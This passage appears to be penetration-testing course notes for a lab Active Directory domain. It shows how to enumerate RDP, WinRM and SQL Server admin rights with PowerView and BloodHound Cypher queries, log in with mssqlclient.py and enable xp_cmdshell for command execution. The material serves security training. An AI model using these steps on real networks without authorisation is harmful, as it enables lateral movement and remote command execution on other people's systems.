 We can also enumerate these privileges using tools such as PowerView and even built-in tools.

## RDP

```powershell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```

## WinRM

We can also utilize this custom `Cypher query` in BloodHound to hunt for users with this type of access. This can be done by pasting the query into the `Raw Query` box at the bottom of the screen and hitting enter.

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

## SQL Server Admin

BloodHound, once again, is a great bet for finding this type of access via the `SQLAdmin` edge. We can check for `SQL Admin Rights` in the `Node Info` tab for a given user or use this custom Cypher query to search:

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

```shell
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```

```shell
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```

```shell
SQL> enable_xp_cmdshell

[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
```

# Bleeding Edge Vulnerabilities
